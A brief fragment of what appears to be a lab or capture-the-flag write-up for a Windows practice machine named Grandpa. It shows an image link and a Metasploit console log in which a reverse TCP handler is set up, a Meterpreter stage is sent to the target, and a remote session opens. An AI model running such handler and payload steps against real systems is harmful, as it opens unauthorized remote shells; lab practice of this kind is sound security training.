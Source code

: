 ![](Maszyny/Windows/Grandpa/Pasted%20image%2020210812181228.png)

msf6 exploit(multi/handler) > set LPORT 9003
LPORT = 9003
msf6 exploit(multi/handler) > set LHOST tuno
LHOST = 10.10.14.19
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.19:9003
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.19:9003 → 10.10.10.14:1035) at 2021-08-12 18:07:12 +0200
meterpreter >
